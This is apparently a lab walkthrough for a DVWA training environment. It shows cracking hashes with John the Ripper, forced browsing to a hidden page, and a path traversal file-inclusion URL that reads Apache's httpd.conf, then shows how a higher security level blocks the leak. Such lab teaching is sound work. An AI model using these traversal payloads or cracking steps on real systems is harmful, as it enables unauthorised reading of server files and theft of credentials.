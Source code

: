 ### John The Ripper
**On Kali VM**
1. Use John The Ripper to crack the hashed passwords inside <u>passwd.txt</u>
```
sudo john passwd.txt
```

2. Run John The Ripper with various suggested formats:
```
sudo john --format=raw-md5 passwd.txt
```

## Forced Browsing
**Using any VM or Host PC** browsing DVWA
1. Click on **File Inclusion** and set security level to <u>Low</u>
2. Click on `file1.php`
```
http://Win10-IP/dvwa-master/vulnerabilities/fi/?page=file1.php
```
3. Click back
4. Click on `file2.php`
```
http://Win10-IP/dvwa-master/vulnerabilities/fi/?page=file2.php
``` 
5. Click back
6. Click on `file3.php`
```
http://Win10-IP/dvwa-master/vulnerabilities/fi/?page=file3.php
``` 
7. Change URL to find hidden `file4.php` file
```
http://Win10-IP/dvwa-master/vulnerabilities/fi/?page=file4.php
``` 

## File Inclusion
>- In File or Path Inclusion vulnerabilities, path to web resources on web server are displayed
>- Gives potential attackers information about how web pages and resources stored on the web server

**Using any VM or Host PC** browsing DVWA
1. Click on **File Inclusion** and set security level to <u>Low</u>
2. Change URL to following to require for non-existent page:
```
http://Win10-IP/dvwa-master/vulnerabilities/fi/?page=include2.php
```
3. Error message displayed contains information about full path of page: `c:\xampp\htdocs\DVWA-master`
4. Change URL to find configuration file of Apache Web Server
```
http://Win-10/dvwa-master/vulnerabilities/fi/?page=..\..\..\..\apache\conf\httpd.conf
```
5. Experienced attacker might save config file and view the file using a text viewer to find important information
6. Change DVWA security level to <u>High</u> and repeat request for non-existent page
7. This time, error message does not disclose information about webroot
